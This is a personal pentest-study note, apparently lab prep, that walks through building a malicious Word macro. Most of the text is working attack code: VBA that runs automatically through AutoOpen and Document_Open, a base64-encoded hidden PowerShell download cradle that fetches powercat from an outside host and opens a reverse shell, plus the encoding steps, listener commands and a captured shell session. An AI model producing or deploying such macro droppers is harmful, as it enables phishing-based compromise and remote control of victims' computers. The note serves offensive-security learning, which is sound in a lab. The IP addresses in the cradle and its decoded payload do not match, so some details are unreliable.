


# Leveraging Macros in MS Word
Macros are commands and instructions grouped together which some Office products let users enable. Macros are written in [VBA](../../coding/languages/VBA.md) which provides *full access to ActiveX and Windows Script Host*. 
## Creating a Macro
Create a blank Word document and give it a name. Make sure it's saved as a `.doc` (not `.docx` which won't allow you to save the macro in the document). You could also use `.docm`. In the Macros dialog window (under the `View` tab) select your document to make sure the macro gets saved to it (*rather than the global template*).
Give your macro a name and hit `Create`. Then you'll be met with the VBA window where you can write your macro:

## Macro Structure
The main "sub procedure" of our macro is the `Sub` token with the name we gave the macro (`tits` in this case).  Sub procedures are similar to functions in programming, except *they do not return anything*. 

Our `tits` sub procedure ends with the `End Sub` token. Everything in between is the body of our `tits()` macro/ sub procedure.
### ActiveX Objects
Active X Objects ("ActiveX controls") are instances of a class which exposes Microsoft Excel properties, methods, and events to an ActiveX client (similar to [Objects](../../coding/languages/javascript.md#Objects) in JavaScript). In Microsoft Excel, objects are organized *into a hierarchy* with the top-most object called the "Application."

#### Windows Script Host Shell object
The Windows Script Host Shell (WshShell) object is an ActiveX object which provides *access to the native Windows shell*. Using the properties and methods attached to the WshShell object, you can use it to run a program locally, manipulate the registry, create shortcuts, access system folders, etc.. It also allows you to handle environment variables including `WINDIR`, `PATH`, `PROMPT`, etc..
## Using our Macro to Start a PowerShell Window
In our macro, we can use the `CreateObject` function to *instantiate* a Windows Script Host Shell Object.
```vb
Sub tits()
	Dim wshShellObj As Object
	Set wshShellObj = CreateObject("Wscript.Shell")
End Sub
```
Once the object is instantiated, we can invoke its `Run` method to launch an application on the victim's machine, in this case, [powershell](../../coding/languages/powershell.md):
```vb
Sub tits()
	Dim wshShellObj As Object
	Set wshShellObj = CreateObject("Wscript.Shell")

	wshShellObj.Run "powershell"
End Sub
```
To check if this is working, press the green run button.
## Auto-Execution
Since our target is not going to manually open the VBA window, and hit the green run button, we need to add more code to make sure the macro is triggered to run *automatically*. Fortunately, Office has a predefined `AutoOpen` macro and a `Document_Open` event which we can use. They both differ in ways that complement each other, so we'll use both to make sure our macro triggers when the victim opens the word doc.
### `AutoOpen()` Macro
Auto-Open is a macro which runs *when you open* a Word doc. The opening events which trigger it are:
- When you open the file using the 'Open' command in the File menu
- When you use `FileOpen` or `FileFind` commands (these are methods of the `FileSystemObject` class which is part of the Windows Scripting Host-- i.e. if the current document is opened by another application via these methods...)
- When you select a document from the Most Recently Used (MRU) list on the File menu

When the doc is opened, the `AutoOpen()` macro runs if it's *saved as part of the document itself* or if its saved as part of *the template which the doc is based on*. 

`AutoOpen` doesn't run *when its saved as part of a global add-in*. Additionally, a user can *prevent* `AutoOpen` from running by *holding down the shift key* when they open the doc.
### `Document_Open` Event
This event is triggered *when the document is opened*. It is a method of Word's `Document` object. If the event is used or written into a document template, then it will triggered when that template is opened. It will also trigger *when any documents made with that template are opened*.
### Adding them to our Script
For these two things to run when our malicious document is opened, *we need to call them in the same namespace as our main macro* (`Sub tits()`):
```vb
Sub Document_Open()
	tits
End Sub

Sub AutoOpen()
	tits
End Sub

Sub tits()
	' Create shell:
	Dim wshShellObj As Object
	Set wshShellObj = CreateObject("Wscript.Shell")

	' Use shell to start PowerShell:
	wshShellObj.Run "powershell"
End Sub
```
## Creating a Reverse Shell
After saving and executing our above script, we should see a [powershell](../../coding/languages/powershell.md) terminal open. Nice. Now we can make our script even better by using it to create a [rev-shell](../../cybersecurity/TTPs/exploitation/rev-shell.md) on our victim's machine. We're going to do this using [powercat](../../CLI-tools/windows/powercat.md).
### Download Cradles
To get PowerCat onto our victim machine, we're going to use a [powershell download cradle](../../cybersecurity/TTPs/actions-on-objective/download-cradles.md). Download Cradles are just single-line commands (usually in powershell) used to download and execute code. They evade security measures by downloading and running the code *in memory* without writing it to disk. 

To further obscure our actions, we'll base64 encode the cradle. The cradle itself will download powercat and start the reverse shell. Unfortunately VBA *has a 255 character-limit* for strings, so we have to break up the command into multiple strings and save each a different variable.
### Creating our Cradle
Let's use the `Dim` keyword to declare our string:
```vb
Sub tits()
	' Create shell:
    Dim wshShellObj As Object
    Set wshShellObj = CreateObject("Wscript.Shell")

	' Declare download cradle string:
	Dim cradleString As String
End Sub
```
Then, we need to base64 encode our cradle. In PowerShell, *the default character set for base64 encoding is UTF-16LE* which means we have to use that character set, or our cradle won't work. To base64 encode our string, we can use the `iconv` command to convert the cradle from UTF-8 to UTF-16, and then `base64` to base 64 encode it:
#### The Cradle
Echo this to a file (I called mine `cradle`):
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.144.132/powercat.ps1');powercat -c 192.168.144.132 -p 44444 -e powershell
```
#### Encoding
Use `base64` to encode the file's contents:
```bash
┌─[25-04-20 15:08:16]:(root@192.168.144.132)-[/home/trshpuppy/oscp/client-side]
└─# vim cradle

┌─[25-04-20 15:08:16]:(root@192.168.144.132)-[/home/trshpuppy/oscp/client-side]
└─# cat cradle | iconv - -f utf-8 -t utf-16le | base64
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBi
AEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAA
OgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADIAMwAyAC8AcABvAHcAZQByAGMAYQB0AC4AcABz
ADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADIA
MwAyACAALQBwACAANAA0ADQANAA0ACAALQBlACAAcABvAHcAZQByAHMAaABlAGwAbAAKAA==
```
### Creating our VBA String
Now we can add our string to our macro script. We're just going to break it into a bunch of string variables and concat them together because, apparently, the 255 character limit doesn't apply to strings saved in variables. Additionally, we have to add our a powershell command to the beginning to execute the string: 
```vb
Sub tits()
	' Create shell:
    Dim wshShellObj As Object
    Set wshShellObj = CreateObject("Wscript.Shell")

	' Declare download cradle string
	Dim cradleString As String

	' Append substrings of encoded payload together:
    cradleString = cradleString + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBi"
    cradleString = cradleString + "AEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAA"
    cradleString = cradleString + "OgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADIAMwAyAC8AcABvAHcAZQByAGMAYQB0AC4AcABz"
    cradleString = cradleString + "ADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADIA"
    cradleString = cradleString + "MwAyACAALQBwACAANAA0ADQANAA0ACAALQBlACAAcABvAHcAZQByAHMAaABlAGwAbAAKAA=="

    ' Use shell object to run the string:
    wshShellObj.Run cradleString
End Sub
```
## Testing our RevShell
Once we modify our `tits()` sub procedure, save the macro. Then, use [netcat](../../cybersecurity/TTPs/exploitation/tools/netcat.md) to listen on the port you expect the powershell cradle to reach out to (`44444`), and start a [python](../../coding/languages/python/python.md) web server to serve the powercat file from:
```bash
# netcat command (listener for rev shell):
nc -nlvp 44444
listening on [any] 44444 ...

# python web server to server powercat.ps1 file (copy pasted from GitHub):
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Once those two are running, test your macro by hitting the run button in the VBA window. You should see the following output from netcat on your linux machine:
```bash
┌─[25-04-20 15:53:25]:(root@192.168.144.132)-[/home/trshpuppy/oscp/client-side]
└─# nc -nlvp 44444
listening on [any] 44444 ...
connect to [192.168.45.232] from (UNKNOWN) [192.168.183.196] 54486
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\offsec\Documents> 
```

> [!Resources]
> - [Microsoft: WshShell Object](https://learn.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/windows-scripting/aew9yb99(v=vs.84))
> - [Microsoft: AutoExec & AutoOpen](https://learn.microsoft.com/en-us/office/troubleshoot/word/autoexec-autoopen-macros-word)
> - [Microsoft: Document_Open](https://learn.microsoft.com/en-us/office/vba/api/word.document.open)
> - [Microsoft Learn: ActiveX Objects](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/automat/activex-objects)
> - [Matt's DFIR blog: Download Cradles](https://mgreen27.github.io/posts/2018/downloadcradle/)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
 